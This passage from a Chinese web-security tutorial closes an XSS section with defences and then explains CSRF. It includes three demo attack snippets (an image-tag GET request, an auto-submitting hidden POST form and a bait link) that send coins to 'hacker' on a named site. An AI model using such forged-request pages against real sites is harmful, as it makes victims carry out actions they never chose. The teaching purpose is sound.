     - 等
- 其他
  - 充分利用 [CSP 内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)
  - cookie 使用 HttpOnly 属性
  - 验证码：防止脚本冒充用户提交危险操作

### 推荐阅读

- [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)
- [AwesomeXSS](https://github.com/s0md3v/AwesomeXSS)

## CSRF 攻击（跨站请求伪造）

CSRF（Cross-site request forgery），称为“跨站请求伪造”，攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

CSRF的特点

- CSRF（通常）发生在**第三方域名**，因为外域通常更容易被攻击者掌控。但如果被攻击网站管控用户内容不严格的话，也有可能被发布恶意超链接等，这样防护起来就更困难了，因为 referer 是来自于本身。
- 和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用**服务器的漏洞**和**用户的登录状态**来实施攻击。

1. GET类型的CSRF，如页面自动发起 Get 请求

```html
<!DOCTYPE html>
<html>
  <body>
    <h1>黑客的站点：CSRF攻击演示</h1>
    <img src="https://time.geekbang.org/sendcoin?user=hacker&number=100">
  </body>
</html>
```

2. POST类型的CSRF，如页面表单自动发起 POST 请求

```html
<!DOCTYPE html>
<html>
<body>
  <h1>黑客的站点：CSRF攻击演示</h1>
  <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
    <input type="hidden" name="user" value="hacker" />
    <input type="hidden" name="number" value="100" />
  </form>
  <script> document.getElementById('hacker-form').submit(); </script>
</body>
</html>
```

3. 链接类型的CSRF

比起其他两种用户打开页面就中招的情况，这种引诱需要用户点击链接才会触发。

```html
<div>
  <img width=150 src=http://images.xuejuzi.cn/1612/1_161230185104_1.jpg> </img> </div> <div>
  <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
    点击下载美女照片
  </a>
</div>
```
